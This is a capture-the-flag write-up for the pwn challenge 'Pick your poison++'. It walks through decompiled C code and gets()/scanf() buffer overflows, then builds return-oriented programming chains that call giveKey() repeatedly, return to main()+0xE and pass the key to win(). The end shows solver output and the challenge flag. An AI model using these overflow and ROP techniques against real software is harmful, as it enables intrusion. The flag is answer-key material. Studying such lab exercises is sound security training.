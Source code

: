 # Pick your poison++
Pwn

## Challenge 

Ｙｏｕ ｈａｖｅ ｒｅａｃｈｅｄ ｌｅｖｅｌ ２！

nc challs.hats.sg 1307

Recommended Reading:

https://stackoverflow.com/questions/2535989/what-are-the-calling-conventions-for-unix-linux-system-calls-on-i386-and-x86-6/2538212#2538212
https://crypto.stanford.edu/~blynn/rop/
Author: Lord_Idiot

## Hint

## Solution

#### Decompile

There are 2 functions that I am interested in: `giveKey()` and `win()`:

`giveKey()` will give a random portion of the key (either the first or second half of the key). So it must be called multiple times to get the full key.

    int giveKey() {
        rewind(*tmp);
        rax = rand();
        if ((rax + (SAR(rax, 0x1f) >> 0x1f) & 0x1) - (SAR(rax, 0x1f) >> 0x1f) == 0x1) {
                printf("Here's the 1st part of the key: ");
                for (var_4 = 0x0; var_4 <= 0x2; var_4 = var_4 + 0x1) {
                        putchar(fgetc(*tmp));
                }
                rax = putchar(0xa);
        }
        else {
                printf("Here's the 2nd part of the key: ");
                fseek(*tmp, 0x3, 0x0);
                for (var_8 = 0x0; var_8 <= 0x2; var_8 = var_8 + 0x1) {
                        putchar(fgetc(*tmp));
                }
                rax = putchar(0xa);
        }
        return rax;
    }

`win()` takes in an argument from the above, and then if the argument matches the key, it will print the flag.

    int win(int arg0) {
        rewind(*tmp);
        var_10 = 0x0;
        fread(&var_10, 0x6, 0x1, *tmp);
        if (var_10 == arg0) {
                memset(&var_80, 0x0, 0x64);
                read(open("./flag", 0x0), &var_80, 0x63);
                printf("Here you go! %s", &var_80);
        }
        else {
                puts("Your key is invalid!");
        }
        rax = *tmp;
        rax = fclose(rax);
        return rax;
    }


---

We have to do ROP to `giveKey()` and pass it to `win()`.

From `choice_0, choice_1, choice_2`, we see that only `choice_0()` and `choice_1()` are vulnerable: gets() and scanf() buffer overflow.

They also only allow to be called once (afterwhich, they will print "You've done this already!").

    int choice_0() {
        if (*(int32_t *)(sign_extend_32(*(int32_t *)choice) * 0x4 + 0x6021e0) != 0x0) {
                puts("You've done this already!");
                rax = exit(0xffffffff);
        }
        else {
                *(int32_t *)(sign_extend_32(*(int32_t *)choice) * 0x4 + 0x6021e0) = 0x1;
                puts(0x4017c0);
                printf("Say> \"");
                gets(&var_70);
                strlen(&var_70) + 0x6;
                rax = printf(0x4018af);
        }
        return rax;
    }

#### Offset


#### Return to main()

Initially, I did ROP in this sequence: choice_0(), go to giveKey(), return to main(), choice_1(), go to giveKey().

In this case, it both returned 1st part of the key but notice that both are different.

    CHOICE: 0
    b"'s the 1st part of the key: "
    b'\x1a\x95\x12'

    CHOICE: 1
    b"'s the 1st part of the key: "
    b'\xb9\xf3='

They are different because the key is reinitialised to a random value every time `main()` is called. This is done in `banner()`.

    int main() {
        rax = banner();

        *(int32_t *)choice = menu();
        if (*(int32_t *)choice == 0x1) goto loc_40118e;

    loc_401179:
        if (*(int32_t *)choice == 0x2) goto loc_40119a;

    loc_40117e:
        if (*(int32_t *)choice == 0x0) {
                rax = 0x0;
                rax = choice_0();
        }
        else {
                rax = puts("Invalid poison!");
        }

        // ... more code ...
    }

    int banner() {
        alarm(0x3c);
        time(0x0);
        srand(rax);
        *tmp = tmpfile();
        if (*tmp == 0x0) {
            rax = exit(0xffffffff);
        } else {
            rax = 0x0;
            var_8 = open("/dev/urandom", 0x0);
            for (var_4 = 0x0; var_4 <= 0x5; var_4 = var_4 + 0x1) {
                    rax = read(var_8, &var_9, 0x1);
                    rax = fputc(sign_extend_64(var_9 & 0xff), *tmp);
            }
            rax = *tmp;
            rax = rewind(rax);
            rax = close(var_8);
            rax = puts("...");
            rax = puts(0x4016d8);
        }
        return rax;
    }

Hence, I decided not to ROP back to `main()`, but to `main()+0xE`. Aka, the address after banner(). This is to avoid banner being called. Hence, the key will remain the same.

    0000000000401159         call       banner                                      ; banner
    000000000040115e         mov        eax, 0x0
    0000000000401163         call       menu   

#### ROP gadgets

This is a 64-bit system, so the parameters need to be pop-ed onto RDI.

    # ROPgadget --binary ./poisonpp | grep 'pop rdi'
    0x00000000004013e3 : pop rdi ; ret


#### Solving

Doing 2 ROPs.

    ROP for menu choice 0
        padding
        giveKey()     // giveKey() multiple times so we can
        giveKey()     // get both part1 and part2 which are
        giveKey()     // randomly returned.
        giveKey()
        main()+0xE    // return to main

    ROP for menu choice 1
        padding
        pop rdi
        final key
        win()

Run the script.

    $ python3 solve_pp.py
    0 b'"\x1b[s\x1b[1A\x1b[129C"\x1b[uHere\'s the 1st part of the key: C\x92^\n'
    Found 1st: b'C\x92^'
    1 b"Here's the 1st part of the key: C\x92^\n"
    Found 1st: b'C\x92^'
    2 b"Here's the 1st part of the key: C\x92^\n"
    Found 1st: b'C\x92^'
    3 b"Here's the 2nd part of the key: j[.\n"
    Found 2st: b'C\x92^'
    b"+------------+---------------------+\n| > Poison   |   0. Old Man Gets   |\n|   Exit     |   1. Sir Ken F      |\n|            |   2. St. R. Copy    |\n+------------+---------------------+\nChoice> Whomst'd've goes there? Speak!\nSay> "
    b'"\x1b[s\x1b[1A\x1b[129C"\x1b[uHere you go! HATS{pwn_pwn_pwn :D}\n'
    *** Connection closed by remote host ***

## Flag

    HATS{pwn_pwn_pwn :D}
